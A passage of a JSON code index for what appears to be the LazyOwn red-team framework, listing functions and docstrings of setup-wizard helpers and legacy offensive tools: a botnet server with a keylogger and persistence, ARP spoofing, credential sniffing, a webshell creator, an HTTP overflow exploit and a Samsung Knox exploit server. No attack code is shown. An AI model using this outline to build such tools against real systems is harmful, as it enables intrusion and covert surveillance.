"function", "line": 786, "name": "_wizard_login_flow", "signature": "def _wizard_login_flow()"}, {"doc": "Handle the register path in the wizard.\n\nReturns:\n    Tuple of (username, password) or (None, None) on skip or failure.", "kind": "function", "line": 809, "name": "_wizard_register_flow", "signature": "def _wizard_register_flow()"}, {"doc": "Optionally launch the interactive marketplace configurator.", "kind": "function", "line": 852, "name": "_ask_marketplace_config", "signature": "def _ask_marketplace_config()"}, {"kind": "function", "line": 875, "name": "_build_readiness", "signature": "def _build_readiness(params)"}, {"kind": "function", "line": 927, "name": "_print_readiness", "signature": "def _print_readiness(items)"}, {"doc": "Return the presence status of every spec without executing it.\n\nThe check is intentionally side-effect free: it only resolves the\nbinary on ``PATH`` via ``shutil.which`` (or the caller-supplied\nequivalent in tests) and never spawns the discovered process. That\nkeeps the readiness step deterministic and removes the risk that a\npoisoned ``PATH`` entry could be triggered just by running ``wizard``.\n\nArgs:\n    specs: Iterable of :class:`BinarySpec` definitions to verify.\n        Defaults to :data:`_REQUIRED_BINARIES`.\n    which: ``shutil.which``-compatible callable. Injected so unit\n        tests can stub presence detection without touching the\n        real ``PATH``.\n\nReturns:\n    A list of :class:`BinaryStatus` items in the same order as\n    ``specs``. Binaries whose name fails :data:`_BINARY_NAME_RE`\n    are skipped defensively — the module-level constants always\n    match, but this guards against future contributions adding\n    unsafe entries by mistake.", "kind": "function", "line": 947, "name": "check_binaries", "signature": "def check_binaries(specs, which)"}, {"kind": "function", "line": 988, "name": "_group_by_category", "signature": "def _group_by_category(statuses)"}, {"kind": "function", "line": 997, "name": "_print_binary_report", "signature": "def _print_binary_report(statuses)"}, {"kind": "function", "line": 1035, "name": "_print_next_steps", "signature": "def _print_next_steps(params)"}, {"doc": "Render schema validation issues for the current payload.\n\nIterates the live params dict, asks the schema for each value, and\nprints a table of problems. The wizard treats errors as blockers and\nwarnings as advisory. The returned list lets the caller decide\nwhether to short-circuit the post-wizard suggestions.\n\nArgs:\n    params: Live params dict after wizard updates have been applied.\n\nReturns:\n    List of :class:`core.payload_schema.ValidationIssue`. Empty when\n    every value satisfies the schema.", "kind": "function", "line": 1059, "name": "_print_validation_summary", "signature": "def _print_validation_summary(params)"}, {"kind": "function", "line": 1098, "name": "_detect_lhost", "signature": "def _detect_lhost()"}, {"kind": "function", "line": 1120, "name": "_detect_device", "signature": "def _detect_device()"}, {"kind": "function", "line": 1133, "name": "_find_seclists_root", "signature": "def _find_seclists_root()"}, {"kind": "function", "line": 1141, "name": "_ping", "signature": "def _ping(ip)"}, {"kind": "function", "line": 1154, "name": "_prompt", "signature": "def _prompt(message)"}, {"kind": "function", "line": 1161, "name": "_ok", "signature": "def _ok(msg)"}, {"kind": "function", "line": 1165, "name": "_warn", "signature": "def _warn(msg)"}, {"kind": "function", "line": 1169, "name": "_info", "signature": "def _info(msg)"}, {"kind": "function", "line": 322, "name": "_is_default", "signature": "def _is_default(value)"}, {"kind": "function", "line": 325, "name": "_is_weak", "signature": "def _is_weak(value)"}, {"kind": "function", "line": 878, "name": "_check", "signature": "def _check(key, label, hint)"}, {"kind": "function", "line": 887, "name": "_check_llm", "signature": "def _check_llm()"}]}, {"doc": "Partial wizard scope: show current state or edit selected fields only.  The full wizard walks eight steps linearly. Operators who only need to change rhost should not pass seven unrelated prompts. This module parses the scope flags and exposes the editable field registry so do_wizard can run a subset without duplicating prompt logic.", "id": "cli/wizard_scope.py", "kind": "module", "label": "wizard_scope.py", "language": "py", "sha256": "d171122ca0f7aa3b", "symbol_count": 4, "symbols": [{"doc": "Centralized knobs for partial wizard runs.", "kind": "class", "line": 17, "name": "WizardScopeConfig", "signature": "class WizardScopeConfig"}, {"doc": "Parsed scope for one wizard invocation.", "kind": "class", "line": 31, "name": "WizardScope", "signature": "class WizardScope"}, {"doc": "Parse --show and --only=a,b flags from wizard tokens.\n\nArgs:\n    tokens: Tokenised wizard arguments.\n    config: Flag spellings and separator.\n\nReturns:\n    WizardScope with show_only set and only holding validated field\n    names in canonical order. Unknown names are dropped.", "kind": "function", "line": 38, "name": "parse_scope", "signature": "def parse_scope(tokens, config)"}, {"doc": "Build display rows for the current configuration state.\n\nArgs:\n    params: Live payload mapping.\n\nReturns:\n    List of (setting, value, status) with status ok or missing.", "kind": "function", "line": 64, "name": "status_rows", "signature": "def status_rows(params)"}]}, {"doc": "Legacy module shims — deprecated scripts retained for compatibility.  Scripts in this directory are no longer maintained or imported by the framework core. They may be invoked via ``run_script()`` paths (which should be updated to point here) or as standalone CLI tools.  New code must not add dependencies to modules in this directory.", "id": "contrib/legacy/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "570fe30f4f80e2b3", "symbol_count": 0, "symbols": []}, {"id": "contrib/legacy/lazy_http_bof.py", "kind": "module", "label": "lazy_http_bof.py", "language": "py", "sha256": "74b01c9b6c978e31", "symbol_count": 2, "symbols": [{"kind": "function", "line": 6, "name": "genHeader", "signature": "def genHeader(raw)"}, {"kind": "function", "line": 29, "name": "exploit", "signature": "def exploit(target, port, payload)"}]}, {"id": "contrib/legacy/lazy_packet_image_sniffer.py", "kind": "module", "label": "lazy_packet_image_sniffer.py", "language": "py", "sha256": "2760d779be49604d", "symbol_count": 9, "symbols": [{"kind": "function", "line": 23, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 31, "name": "list_interfaces", "signature": "def list_interfaces()"}, {"kind": "function", "line": 49, "name": "choose_interface", "signature": "def choose_interface(interfaces)"}, {"kind": "function", "line": 61, "name": "get_subnet_from_interface", "signature": "def get_subnet_from_interface(interface)"}, {"kind": "function", "line": 65, "name": "get_ip_addresses", "signature": "def get_ip_addresses(interface)"}, {"kind": "function", "line": 111, "name": "handle_packet", "signature": "def handle_packet(packet)"}, {"kind": "function", "line": 161, "name": "save_image", "signature": "def save_image(src_ip, end_idx)"}, {"kind": "function", "line": 187, "name": "run", "signature": "def run()"}, {"kind": "function", "line": 192, "name": "daemonize", "signature": "def daemonize()"}]}, {"doc": "lazyaddon_creator.py ==================== Genera automáticamente un addon YAML de LazyOwn a partir de una URL de GitHub.  Uso: cd lazyaddons python3 ../modules/lazyaddon_creator.py https://github.com/user/repo  Requiere: - requests (pip install requests) - PyYAML - GROQ_API_KEY u Ollama corriendo (para el módulo llm_client)", "id": "contrib/legacy/lazyaddon_creator.py", "kind": "module", "label": "lazyaddon_creator.py", "language": "py", "sha256": "7743b0639f9df3bc", "symbol_count": 14, "symbols": [{"doc": "Extrae (owner, repo) de una URL de GitHub.", "kind": "function", "line": 49, "name": "parse_github_url", "signature": "def parse_github_url(url)"}, {"doc": "GET a la API pública de GitHub (sin auth, rate-limit 60/hr).", "kind": "function", "line": 58, "name": "github_api_get", "signature": "def github_api_get(owner, repo, endpoint)"}, {"doc": "Devuelve metadata básica del repo.", "kind": "function", "line": 68, "name": "fetch_repo_metadata", "signature": "def fetch_repo_metadata(owner, repo)"}, {"doc": "Descarga y decodifica el README.", "kind": "function", "line": 73, "name": "fetch_readme", "signature": "def fetch_readme(owner, repo)"}, {"doc": "Lista nombres de archivos en el directorio raíz.", "kind": "function", "line": 85, "name": "fetch_root_files", "signature": "def fetch_root_files(owner, repo)"}, {"doc": "Construye el prompt para el LLM.", "kind": "function", "line": 98, "name": "build_llm_prompt", "signature": "def build_llm_prompt(meta, readme, root_files)"}, {"doc": "Extrae el primer bloque JSON de una respuesta de LLM.", "kind": "function", "line": 164, "name": "extract_json_from_response", "signature": "def extract_json_from_response(text)"}, {"doc": "Infiere un install_command básico a partir de los archivos raíz.", "kind": "function", "line": 192, "name": "heuristic_install_command", "signature": "def heuristic_install_command(root_files, language)"}, {"doc": "Infiere un execute_command básico.", "kind": "function", "line": 211, "name": "heuristic_execute_command", "signature": "def heuristic_execute_command(name, root_files, language)"}, {"doc": "Infiere parámetros comunes basándose en el nombre y README.", "kind": "function", "line": 245, "name": "heuristic_params", "signature": "def heuristic_params(name, readme, root_files)"}, {"doc": "Genera datos de addon usando solo heurísticas locales (sin LLM).", "kind": "function", "line": 276, "name": "fallback_yaml_data", "signature": "def fallback_yaml_data(meta, readme, root_files)"}, {"doc": "Construye la estructura de dict que representa el addon YAML.", "kind": "function", "line": 300, "name": "build_yaml", "signature": "def build_yaml(data, repo_url)"}, {"doc": "Guarda el dict como archivo YAML en output_dir.", "kind": "function", "line": 336, "name": "save_yaml", "signature": "def save_yaml(addon, output_dir)"}, {"kind": "function", "line": 357, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazyarpspoofing.py", "kind": "module", "label": "lazyarpspoofing.py", "language": "py", "sha256": "ac4c9bb8affe3c90", "symbol_count": 7, "symbols": [{"kind": "function", "line": 27, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 35, "name": "enable_ip_forward", "signature": "def enable_ip_forward()"}, {"kind": "function", "line": 38, "name": "disable_ip_forward", "signature": "def disable_ip_forward()"}, {"kind": "function", "line": 41, "name": "get_local_ip", "signature": "def get_local_ip(ifname)"}, {"kind": "function", "line": 49, "name": "get_mac", "signature": "def get_mac(ip, device, retries, timeout)"}, {"kind": "function", "line": 69, "name": "spoofer", "signature": "def spoofer(target, spoofed, device)"}, {"kind": "function", "line": 80, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazybinenc.py", "kind": "module", "label": "lazybinenc.py", "language": "py", "sha256": "da6503acf050d374", "symbol_count": 2, "symbols": [{"kind": "function", "line": 12, "name": "generate_key_iv", "signature": "def generate_key_iv(sessions_path)"}, {"kind": "function", "line": 54, "name": "main", "signature": "def main()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Cliente LazyOwn BotNet  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazybotcli.py", "kind": "module", "label": "lazybotcli.py", "language": "py", "sha256": "fb0fb677f25ee606", "symbol_count": 3, "symbols": [{"kind": "function", "line": 30, "name": "encrypt", "signature": "def encrypt(plaintext, key)"}, {"kind": "function", "line": 36, "name": "decrypt", "signature": "def decrypt(ciphertext, key)"}, {"kind": "function", "line": 42, "name": "main", "signature": "def main()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Servidor LazyOwn BotNet  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazybotnet.py", "kind": "module", "label": "lazybotnet.py", "language": "py", "sha256": "e551fb9a692c1c72", "symbol_count": 16, "symbols": [{"kind": "function", "line": 46, "name": "encrypt", "signature": "def encrypt(plaintext, key)"}, {"kind": "function", "line": 52, "name": "decrypt", "signature": "def decrypt(ciphertext, key)"}, {"kind": "function", "line": 58, "name": "add_to_botnet", "signature": "def add_to_botnet(ip, port, botnet_file)"}, {"kind": "function", "line": 62, "name": "clean_botnet", "signature": "def clean_botnet(ip, port, botnet_file)"}, {"kind": "function", "line": 71, "name": "send_to_botnet", "signature": "def send_to_botnet(cmd, key, botnet_file)"}, {"kind": "class", "line": 89, "name": "Keylogger", "signature": "class Keylogger"}, {"kind": "function", "line": 144, "name": "handle_client", "signature": "def handle_client(conn, key, botnet_file, log_file)"}, {"kind": "function", "line": 182, "name": "start_server", "signature": "def start_server(host, port, key, botnet_file, log_file)"}, {"kind": "method", "line": 90, "name": "__init__", "signature": "def __init__(self, key, log_file)"}, {"kind": "method", "line": 95, "name": "on_press", "signature": "def on_press(self, key)"}, {"kind": "method", "line": 106, "name": "start", "signature": "def start(self)"}, {"kind": "method", "line": 110, "name": "get_log", "signature": "def get_log(self)"}, {"kind": "method", "line": 113, "name": "save_log", "signature": "def save_log(self)"}, {"kind": "method", "line": 120, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 125, "name": "setup_persistence", "signature": "def setup_persistence(self)"}, {"kind": "method", "line": 136, "name": "create_shortcut", "signature": "def create_shortcut(self, script_path, shortcut_path)"}]}, {"doc": "This code is a portion of frigate Event Video Recorder (fEVR)  Copyright (C) 2021-2022  The Bearded Tek (http://www.beardedtek.com) William Kenny  This program is free software: you can redistribute it and/or modify it under the terms of the GNU Affero General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License for more details.  You should have received a copy of the GNU AfferoGeneral Public License along with this program.  If not, see <https://www.gnu.org/licenses/>.  Scans given ports of an IPv4 Address or an IPv4 Network for RTSP Streams and adds them to or removes them from rtsp-simple-server via its API", "id": "contrib/legacy/lazycam.py", "kind": "module", "label": "lazycam.py", "language": "py", "sha256": "b6ea73cbf0fd384d", "symbol_count": 10, "symbols": [{"kind": "class", "line": 32, "name": "RTSPScanner", "signature": "class RTSPScanner"}, {"kind": "method", "line": 33, "name": "__init__", "signature": "def __init__(self, verbose, wspace)"}, {"kind": "method", "line": 49, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 68, "name": "resizeImg", "signature": "def resizeImg(self, img, output, height, ratio, fmt)"}, {"kind": "method", "line": 77, "name": "splitCSV", "signature": "def splitCSV(self, csv)"}, {"kind": "method", "line": 83, "name": "scanner", "signature": "def scanner(self)"}, {"kind": "method", "line": 136, "name": "delCameras", "signature": "def delCameras(self)"}, {"kind": "method", "line": 149, "name": "addCameras", "signature": "def addCameras(self)"}, {"kind": "function", "line": 212, "name": "cla", "signature": "def cla()"}, {"kind": "function", "line": 257, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazycreate_webshell.py", "kind": "module", "label": "lazycreate_webshell.py", "language": "py", "sha256": "d9558a1b812fd22c", "symbol_count": 0, "symbols": []}, {"doc": "Unified Ollama/DeepSeek client for LazyOwn — merges lazydeepseekcli_local + lazydeepseekcli_localreport.  Provides streaming SSE responses via Flask for both red-team strategy and pentest report generation. Original ``process_prompt_local`` and ``process_prompt_localreport`` signatures preserved.  Usage::  from modules.legacy.lazydeepseekcli import process_prompt_local, process_prompt_localreport", "id": "contrib/legacy/lazydeepseekcli.py", "kind": "module", "label": "lazydeepseekcli.py", "language": "py", "sha256": "934520b08af77656", "symbol_count": 16, "symbols": [{"kind": "function", "line": 41, "name": "truncate_message", "signature": "def truncate_message(message, max_chars)"}, {"kind": "function", "line": 45, "name": "configure_logging", "signature": "def configure_logging(debug)"}, {"kind": "function", "line": 50, "name": "_load_payload_kv", "signature": "def _load_payload_kv()"}, {"kind": "function", "line": 68, "name": "_load_report_context", "signature": "def _load_report_context()"}, {"kind": "function", "line": 79, "name": "_prompt_redteam", "signature": "def _prompt_redteam(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 118, "name": "_prompt_report", "signature": "def _prompt_report(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 167, "name": "load_knowledge_base", "signature": "def load_knowledge_base(file_path)"}, {"kind": "function", "line": 174, "name": "save_knowledge_base", "signature": "def save_knowledge_base(knowledge_base, file_path)"}, {"kind": "function", "line": 179, "name": "add_to_knowledge_base", "signature": "def add_to_knowledge_base(prompt, command, file_path)"}, {"kind": "function", "line": 185, "name": "get_relevant_knowledge", "signature": "def get_relevant_knowledge(prompt)"}, {"kind": "function", "line": 193, "name": "transform_knowledge_base", "signature": "def transform_knowledge_base(prompt_builder)"}, {"kind": "function", "line": 223, "name": "_ollama_stream", "signature": "def _ollama_stream(prompt_text, mode)"}, {"kind": "function", "line": 255, "name": "process_prompt_local", "signature": "def process_prompt_local(prompt, debug, mode)"}, {"kind": "function", "line": 263, "name": "process_prompt_localreport", "signature": "def process_prompt_localreport(prompt, debug, mode)"}, {"kind": "function", "line": 271, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 231, "name": "generate", "signature": "def generate()"}]}, {"doc": "disassembler.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Date: 14/04/2025 Licencia: GPL v3  Description: This file contain a rudimentary disassembler with no warranty  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazydisassebler.py", "kind": "module", "label": "lazydisassebler.py", "language": "py", "sha256": "b2bb59dd7797c205", "symbol_count": 8, "symbols": [{"doc": "A disassembler class for x86-64 architecture.\n\nThis class provides methods to disassemble raw binary data into human-readable assembly instructions.\nIt supports parsing ELF headers, decoding ModR/M and SIB bytes, and handling various instruction formats.\n\nLicense: GPL v3", "kind": "class", "line": 24, "name": "X64Disassembler", "signature": "class X64Disassembler"}, {"doc": "Main function for the disassembler.\n\nThis function handles command-line arguments, reads the binary file,\nand initiates the disassembly process for an ELF file.\n\nUsage: python3 disassembler.py <binary_file>", "kind": "function", "line": 489, "name": "main", "signature": "def main()"}, {"doc": "Initializes the X64Disassembler instance.\n\nSets up registers, syscalls, and other necessary attributes for disassembly.", "kind": "method", "line": 34, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Reads the ELF header and finds the code section.\n\nThis function parses the ELF file header to locate the executable segment (TEXT).\nIt checks for 64-bit ELF files and extracts the program headers to find the\nfirst executable segment. Returns the offset, virtual address, size and entry point\nof the TEXT segment if found.\n\nParameters:\n    data (bytes): The raw bytes of the ELF file\n\nReturns:\n    tuple: (offset, virtual_address, size, entry_point) or (None, None, None, None) if not found\n\nLicencia: GPL v3", "kind": "method", "line": 79, "name": "read_elf_header", "signature": "def read_elf_header(self, data)"}, {"doc": "Parses the ModR/M byte and extracts mod, reg, and rm fields.\n\nThis function decodes the ModR/M byte used in x86/x64 instructions to determine\nhow operands are addressed. It also applies REX prefix extensions if present.\n\nParameters:\n    modrm (int): The ModR/M byte to be parsed.\n    rex (int): Optional REX prefix byte (default is 0).\n\nReturns:\n    tuple: A tuple containing the decoded `mod`, `reg`, and `rm` fields.\n\nLicense: GPL v3", "kind": "method", "line": 135, "name": "parse_modrm", "signature": "def parse_modrm(self, modrm, rex)"}, {"doc": "Parses the SIB byte and extracts scale, index, and base fields.\n\nThis function decodes the Scale/Index/Base (SIB) byte used in x86/x64 addressing modes\nto determine how memory operands are addressed. It also applies REX prefix extensions\nif present.\n\nParameters:\n    sib (int): The SIB byte to be parsed.\n    rex (int): Optional REX prefix byte (default is 0).\n\nReturns:\n    tuple: A tuple containing the decoded `scale`, `index`, and `base` fields.\n\nLicense: GPL v3", "kind": "method", "line": 173, "name": "parse_sib", "signature": "def parse_sib(self, sib, rex)"}, {"doc": "Gets the string representation of the operand based on mod/rm.\n\nThis function decodes the addressing mode specified by the `mod` and `rm` fields\nin x86/x64 instructions. It handles different cases such as RIP-relative, SIB,\nand direct register addressing, applying REX prefix extensions if present.\n\nParameters:\n    mod (int): The 'mod' field from the ModR/M byte.\n    rm (int): The 'rm' field from the ModR/M byte.\n    rex (int): Optional REX prefix byte.\n    bytes_data (bytes): The raw instruction bytes.\n    offset (int): Current offset in the instruction bytes.\n\nReturns:\n    tuple: A tuple containing the operand string representation and the number\n        of additional bytes consumed during parsing.\n\nLicense: GPL v3", "kind": "method", "line": 212, "name": "get_operand_str", "signature": "def get_operand_str(self, mod, rm, rex, bytes_data, offset)"}, {"doc": "Main disassembler for x86-64 code.\n\nThis function disassembles raw machine code into human-readable assembly instructions.\nIt handles various instruction types, including XOR, PUSH/POP, MOV, immediate loads,\nand system calls. Additionally, it processes REX prefixes and supports RIP-relative addressing.\n\nParameters:\n    bytes_data (bytes): Raw binary data of the code section.\n    file_offset (int): File offset of the code section.\n    vaddr (int): Virtual address of the code section.\n    size (int): Size of the code section in bytes.\n    entry_point (int): Entry point of the program.\n\nLicense: GPL v3", "kind": "method", "line": 305, "name": "disassemble", "signature": "def disassemble(self, bytes_data, file_offset, vaddr, size, entry_point)"}]}, {"id": "contrib/legacy/lazyftpsniff.py", "kind": "module", "label": "lazyftpsniff.py", "language": "py", "sha256": "8d8b4e67cf63b4d6", "symbol_count": 5, "symbols": [{"kind": "function", "line": 21, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 34, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 42, "name": "parse_arguments", "signature": "def parse_arguments()"}, {"kind": "function", "line": 56, "name": "sniffer_ftp", "signature": "def sniffer_ftp(pkt)"}, {"kind": "function", "line": 69, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazygalazy.py", "kind": "module", "label": "lazygalazy.py", "language": "py", "sha256": "14ac3b029a58d5a9", "symbol_count": 7, "symbols": [{"kind": "class", "line": 8, "name": "SamsungKnoxExploitServer", "signature": "class SamsungKnoxExploitServer(BaseHTTPRequestHandler)"}, {"kind": "function", "line": 97, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 11, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 33, "name": "apk_bytes", "signature": "def apk_bytes(self)"}, {"kind": "method", "line": 36, "name": "launch_html", "signature": "def launch_html(self)"}, {"kind": "method", "line": 49, "name": "exploit_js", "signature": "def exploit_js(self)"}, {"kind": "method", "line": 93, "name": "rand_word", "signature": "def rand_word(self)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Assistente de consola  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazygptcli.py", "kind": "module", "label": "lazygptcli.py", "language": "py", "sha256": "b6904a7d915d4894", "symbol_count": 14, "symbols": [{"kind": "function", "line": 66, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 73, "name": "show_help", "signature": "def show_help(message)"}, {"kind": "function", "line": 77, "name": "check_api_key", "signature": "def check_api_key()"}, {"kind": "function", "line": 83, "name": "configure_logging", "signature": "def configure_logging(debug)"}, {"kind": "function", "line": 87, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 94, "name": "create_complex_prompt", "signature": "def create_complex_prompt(base_prompt, history, knowledge_base, error_message)"}, {"kind": "function", "line": 108, "name": "execute_command", "signature": "def execute_command(command)"}, {"kind": "function", "line": 118, "name": "load_knowledge_base", "signature": "def load_knowledge_base(file_path)"}, {"kind": "function", "line": 124, "name": "save_knowledge_base", "signature": "def save_knowledge_base(knowledge_base, file_path)"}, {"kind": "function", "line": 128, "name": "add_to_knowledge_base", "signature": "def add_to_knowledge_base(prompt, command, file_path)"}, {"kind": "function", "line": 133, "name": "get_relevant_knowledge", "signature": "def get_relevant_knowledge(prompt)"}, {"kind": "function", "line": 141, "name": "transform_knowledge_base", "signature": "def transform_knowledge_base(client)"}, {"kind": "function", "line": 164, "name": "cleanup_temp_files", "signature": "def cleanup_temp_files()"}, {"kind": "function", "line": 177, "name": "main", "signature": "def main()"}]}, {"doc": "Unified Groq LLM client for LazyOwn — merges lazygptcli2/3/4/5 + lazyagentAi + lazygpttask + lazygptvulns + lazyredopgpt.  All original ``process_prompt_*`` function signatures are preserved for backward compatibility (used by ``llm_adapter.py`` and the C2 dashboard).  Shared utility functions (knowledge-base CRUD, truncation, logging) are defined once and reused across all task variants.  Usage::  from modules.legacy.lazygptcli import ( Groq, process_prompt, process_prompt_script, process_prompt_adversary, process_prompt_general, process_prompt_search, process_prompt_task, process_prompt_vuln, process_prompt_redop, )", "id": "contrib/legacy/lazygptcli_unified.py", "kind": "module", "label": "lazygptcli_unified.py", "language": "py", "sha256": "b83557239fe8c5ed", "symbol_count": 29, "symbols": [{"kind": "function", "line": 45, "name": "_ret_model", "signature": "def _ret_model()"}, {"kind": "function", "line": 53, "name": "truncate_message", "signature": "def truncate_message(message, max_chars)"}, {"kind": "function", "line": 57, "name": "_configure_logging", "signature": "def _configure_logging(debug)"}, {"kind": "function", "line": 62, "name": "_load_knowledge_base", "signature": "def _load_knowledge_base(file_path)"}, {"kind": "function", "line": 70, "name": "_save_knowledge_base", "signature": "def _save_knowledge_base(knowledge_base, file_path)"}, {"kind": "function", "line": 76, "name": "_add_to_knowledge_base", "signature": "def _add_to_knowledge_base(prompt, response, file_path)"}, {"kind": "function", "line": 82, "name": "_get_relevant_knowledge", "signature": "def _get_relevant_knowledge(prompt, file_path)"}, {"kind": "function", "line": 95, "name": "_transform_knowledge_base", "signature": "def _transform_knowledge_base(client, kb_file, improved_file)"}, {"kind": "function", "line": 115, "name": "_groq_chat", "signature": "def _groq_chat(client, messages, model, max_tokens)"}, {"kind": "function", "line": 129, "name": "_load_payload_kv", "signature": "def _load_payload_kv()"}, {"kind": "function", "line": 147, "name": "_load_event_config", "signature": "def _load_event_config()"}, {"kind": "function", "line": 159, "name": "_prompt_oneliner", "signature": "def _prompt_oneliner(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 175, "name": "_prompt_script", "signature": "def _prompt_script(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 190, "name": "_prompt_adversary", "signature": "def _prompt_adversary(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 206, "name": "_prompt_general", "signature": "def _prompt_general(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 225, "name": "_prompt_search", "signature": "def _prompt_search(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 239, "name": "_prompt_vuln", "signature": "def _prompt_vuln(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 254, "name": "_prompt_task", "signature": "def _prompt_task(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 267, "name": "_prompt_redop", "signature": "def _prompt_redop(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 287, "name": "_process_groq", "signature": "def _process_groq(client, prompt, debug, prompt_template, kb_file, model)"}, {"doc": "Generate a single-line shell command from a user prompt.", "kind": "function", "line": 318, "name": "process_prompt", "signature": "def process_prompt(client, prompt, debug)"}, {"doc": "Generate a full script from a user prompt.", "kind": "function", "line": 323, "name": "process_prompt_script", "signature": "def process_prompt_script(client, prompt, debug)"}, {"doc": "Answer questions about MITRE ATT&CK techniques and Atomic Red Team.", "kind": "function", "line": 328, "name": "process_prompt_adversary", "signature": "def process_prompt_adversary(client, prompt, debug)"}, {"doc": "General red team assistant with payload.json context and DeepSeek fallback.", "kind": "function", "line": 333, "name": "process_prompt_general", "signature": "def process_prompt_general(client, prompt, debug)"}, {"doc": "Research and threat intelligence analysis.", "kind": "function", "line": 341, "name": "process_prompt_search", "signature": "def process_prompt_search(client, prompt, debug)"}, {"doc": "Analyze task assessment JSON for completion status and next commands.", "kind": "function", "line": 346, "name": "process_prompt_task", "signature": "def process_prompt_task(client, prompt, debug)"}, {"doc": "Analyze Nmap output for vulnerabilities and generate penetration test action plan.", "kind": "function", "line": 356, "name": "process_prompt_vuln", "signature": "def process_prompt_vuln(client, prompt, debug, event)"}, {"doc": "Evaluate Red Team operation status from JSON database params.", "kind": "function", "line": 382, "name": "process_prompt_redop", "signature": "def process_prompt_redop(client, prompt, debug)"}, {"kind": "function", "line": 392, "name": "_deepseek_fallback", "signature": "def _deepseek_fallback(prompt)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwn HoneyPot  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ 